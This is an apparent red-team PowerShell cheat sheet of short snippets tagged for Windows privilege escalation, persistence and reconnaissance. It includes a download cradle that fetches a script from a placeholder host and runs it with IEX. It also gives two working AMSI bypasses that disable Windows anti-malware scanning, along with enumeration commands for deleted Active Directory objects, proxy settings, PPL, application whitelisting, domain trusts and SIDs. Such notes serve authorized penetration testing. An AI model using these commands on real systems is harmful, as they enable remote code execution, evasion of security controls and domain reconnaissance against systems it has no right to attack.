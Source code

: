 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Bypass AMSI with _amsiContext_
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```
